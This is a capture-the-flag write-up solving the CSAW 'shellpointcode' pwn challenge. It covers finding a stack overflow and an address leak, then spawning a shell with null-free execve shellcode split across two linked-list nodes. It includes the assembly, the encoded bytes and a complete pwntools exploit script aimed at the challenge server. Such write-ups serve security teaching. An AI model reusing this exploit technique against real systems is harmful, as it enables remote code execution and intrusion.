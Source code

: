 # Reversing (The Problem)
The clue was: "Linked lists are great! They let you chain pieces of data together"

Running checksec on the binary gives the following result:

![alt text](checksec.png)

This gives us a few clues already:
1. NX is disabled and there are RWX segments, which points to possible shellcode injection.
2. Full RELRO means that we can't overwrite the GOT.
3. No stack canary, which points to a possible buffer overflow vulnerability.

Running the program, it asks twice for 15 bytes of data, to store on two separate linked list nodes, node 1 and node 2. Then it leaks the second node's address through the "next" pointer in the first node.
Finally, it asks for our initials and then prints a goodbye message using our input.

Let's check it out in IDA:


![alt text](nononode.png)

Here we can confirm that we are only allowed to store the 15 bytes the program asks for, so no overflows in this part. However, we can see a call to the goodbye function which, I assume, is where the programs asks for our initials and says goodbye.

![alt text](goodbye_overflow.png)

And indeed, we see the stack frame growing 16 bytes, and fgets reading 0x20 bytes into [rbp - 3], which means we have 29 bytes of overflow. 

Testing it out wields the following result:

![alt text](segfault.png)

Aha! Just as we expected. So, there's our buffer overflow. With this, we should have enough space to overwrite the saved return address. Let's find out the offset between our input and the saved return address in gdb.

![alt text](offset.png)

The highlighted value is what we want to overwrite and it's 11 bytes away from where our input is stored.

Now the only thing left to know is where the nodes are, relative to each other, so we can have the big picture of what's going on.
Again using gdb, we can see that node 2 (lower address) is higher than node 1 (higher address) on the stack, 32 bytes appart.

![alt text](node_off.png)
(node 1 is filled with A's (0x41) and node 2 is filled with B's (0x42))

# The Solution

Recap: 
We have a leak from an address where we can store 15 bytes of data and we know the offset from this address to the other address where we can store another 15 bytes. 
From checksec, we know the binary doesn't have NX enabled, so we can execute code on the stack.

I solved this challenge by injecting shellcode in both nodes, and jumping between them with a short jump to save space. The script was developed in python using the pwntools library.

We have to keep in mind that fgets stops when it sees a \x00, so our shellcode can't have any of those.

```assembly
   ; complement of "/bin/sh\x00"
   mov rbx, 0xff978cd091969dd0
   not rbx
   jmp short $+20

   xor rsi, rsi
   push 59
   pop rax
   push rbx
   mov rdi, rsp

   syscall
```

First, the complement of "/bin/sh\x00" is moved into the rbx register, and then, before we push rbx we run a not on it. This way, we can push "/bin/sh\x00" without any 0's in our code.
Then I found the exact offset on gdb to where we wanted our code to jump to and hardcoded it. The rest is straightforward x86-64, avoiding instructions with 0's in them.
This code is 27 bytes long and calls sys_execve("/bin/sh\x00", null, null). It's split into 15 bytes in node 2 and 12 bytes in node 1.


```python
#!/usr/bin/env python2.7
from pwn import *
binary_path = "./shellpointcode"

SERVER = "pwn.chal.csaw.io"
PORT = 9005
# Change to False to interact with the server
local = False
if local:
   p = process(binary_path, timeout=9999)
else:
   p = remote(SERVER, PORT, timeout=9999)

"""
    xor rsi, rsi
    push 59
    pop rax
    push rbx
    mov rdi, rsp

    syscall
"""
node_1 = "\x48\x31\xf6\x6a\x3b\x58\x53\x48\x89\xe7\x0f\x05"

"""
    mov rbx, 0xff978cd091969dd0
    not rbx
    jmp short $+20
"""
node_2 = "\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\xeb\x12"

padding = 'A'*11

p.sendline(node_1)
p.sendline(node_2)
p.recvuntil("node.next:")

# parse the leaked address
node_2_addr = p.recvline()
"""
we add 8 to the leaked address, because our input is at 
offset 8 from the start of node 2 which is the leaked address, being the first 8 bytes reserved to the pointer to the next node on the list.
"""
rip = p64(int(node_2_addr, 16) + 8)
p.sendline(padding + rip)
p.interactive()
```

Now we run the script and get the flag!

![alt text](win.png)

\- STT bl4ck
